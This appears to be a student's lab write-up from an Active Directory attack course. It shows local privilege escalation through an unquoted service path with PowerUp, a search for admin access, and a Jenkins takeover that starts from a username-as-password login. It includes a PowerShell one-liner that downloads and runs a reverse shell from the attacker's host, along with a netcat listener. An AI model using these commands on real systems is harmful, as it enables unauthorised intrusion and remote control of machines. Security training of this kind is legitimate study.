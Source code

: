 Learning Objective 5

# **1)Exploit a service on dcorp-studentx and elevate privileges to local administrator.**

So we need to attain local admin priv at dcorp-studentx machine by exploting a service running at here.

i)using Powerup

load the power up then check for vulnerable service

command:
```  Invoke-AllChecks```

O/P:
![alt text](image-10.png)

so we found that the "AbyssWebServer" contains whitespace and it is unquoted so it is abusable and the above output also gives the abuse function.

we can get the examples of how we can use Invoke-ServiceAbuse funtion
command:

```  help Invoke-ServiceAbuse -Examples```

O/P:
![alt text](image-11.png)
here we are using example number 3 and adding the domain user student219 to the Administrators group and getting local admin priv

command:
```  Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName dcorp\student219 -Verbose```


check student user is added to Administrators group
``` net localgroup Administrators```

O/P:
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
dcorp\Domain Admins
dcorp\student219
The command completed successfully.

now logoff and login to student user then we have admin priv|

what actually happens here?the real path for the AbyssServer serice is replaced by a payload path that add the studentx user to the administrators group.

ii)same using WinPeas

command:
```C:\AD\Tools\Loader.exe -Path C:\AD\Tools\winPEASx64.exe -args notcolor log```
O/P:
![alt text](image-12.png)

iii)same using PrivescCheck

import privesccheck
```. C:\AD\Tools\PrivEscCheck.ps1```

run
```Invoke-PrivescCheck```

O/P:
![alt text](image-13.png)


# **2)identify a machine in the domain where studentx has local administrative access, use Find-PSRemotingLocalAdminAccess.ps1**

For this task we can also use WMI and Find-LocalAdminAccess
Here using powershellRemoting
![alt text](image-14.png)

now login to adminsrv
![alt text](image-15.png)

so the student user have admin access on the adminsrv server so that we are able to login it remotely

# **3)Using the privileges of a user on Jenkins on 172.16.3.11:8080,get admin privileges on 172.16.3.11-dcorp-ci server**

we know that in our lab environment a jenkins server is running on dcorp-ci machine with admin priv

so we are visiting that webpage and in the peoples page  we can find some of the users and their username,,, using that to log in the jinkins webpage as using same username as passowrd,, we got successfully logged in while using 
"username:builduser
password:builduser"

![alt text](image-19.png)

then by visiting the profile we are checking that we can configure build or we have admin access we just simply visit the "http://jenkinsserverip/script" and input script and run that to try cmd exectuion and rev shells

host the revershell on our machine using hfs

![alt text](image-17.png)
here we dont have admin priv,, so if we can configure builds then we can configure a build as "Execute Windows batch command" with including a reverse shell to the destination of ours attacking machine and dowloadin the revershell code


``` powershell.exe iex (iwr http://172.16.100.219/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.219 -Port 443```

![alt text](image-16.png)

then save....


Now start a listener on our machine
command:
``` C:\AD\Tools\netcat-win32-1.12\nc64.exe -lvp 443```

now click the build now and start to build,,, now while it is building we can see that revershell is getting downloaded from out host to destinaion in hfs application 

and now we got rev shell and it is with ciadmin priv
![alt text](image-18.png)